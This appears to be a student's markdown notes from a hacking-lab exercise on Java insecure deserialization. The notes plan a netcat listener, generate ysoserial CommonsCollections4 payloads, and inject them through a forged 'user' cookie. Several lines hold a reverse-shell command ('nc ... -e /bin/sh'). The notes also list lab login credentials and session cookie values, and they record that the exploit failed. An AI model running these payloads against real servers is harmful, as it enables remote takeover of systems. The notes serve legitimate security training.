

# Insecure Serialization


## plan
- 1. in shell listen via netcat
- 2. generate exploit pass netcat clien into it
- 3. pass this exploit into website with java deserializatino vulnerability
    - now it should connect to netcat server (in my web shell).. creating a reverse shell
    - now i should be able to control webserver

Trying to generate payload (none of them worked.. always showed help and produced an empty file)

`docker run ysoserial CommonsCollections4 'hello'` (test payload.. running as root)
`docker run ysoserial CommonsCollections4 'nc 10.103.0.5 1337 -e /bin/sh' > javaPayload` (worked.. running as root)


 
```
    
cd /var/li/dock/o/z/diff/app/target
java -jar ysoserial.jar CommonsCollections4 nc 10.103.0.6 1337 -e /bin/sh > dansPayload

```

## Answers


## Steps


**1user  Analyze insecure/serialization website**
Insecure/deserialization credentials
thomas
mypass22


Cookie values: 
- JSESSIONID:"80D9B52D7F671CC3B97B43C985F9A8CC"
- user:"rO0ABXNyAB9uZXQuaXNjaGkuaGwuc2VyaWFsaXphdGlvbi5Vc2VyAAAAAAAAAAECAAJMAAhwYXNzd29yZHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACHVzZXJuYW1lcQB+AAF4cHB0AAZ0aG9tYXM="
    - seems to be java serialization code (starting with "rO0")


**2 generate  exploit**
Running ysoserial reverse shell
1. get ysoserial from github
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
```
2. fix dockerfile according to: https://github.com/frohoff/ysoserial/pull/193
3. run docker and generate paylod into a file dansPayload (did it as root probably not necessary)
```
docker build -t ysoserial .
docker run ysoserial --help
docker run ysoserial CommonsCollections4 'hello'
docker run ysoserial CommonsCollections4 'nc 10.103.0.5 1337 -e /bin/sh' | base64 > danPayload

```


**3  exploit**
1. in shell start nc server

2. pass exploit in browser (tried with FF)
    - go to https://033f187d-1852-4ccb-9e8e-2fc217536de8.idocker.vuln.land/ and log in
    - in developer tools change cookie with 'user' to value in payload
        - error message appears (which is to be expected)
        - command in payload should be executed
            - did not work however :-(





**Reverse shell **
credentials
- username: hacker
- password: w3BCd7s9fn4a
10.103.0.6.  Port 1337 or 4242 
`nc 10.103.0.5 1337 -e /bin/sh`
<span style="color:red">creating exploit not working.. java installation problem
    
    TODO check messages: docker file has to be adapted manually 
       </span>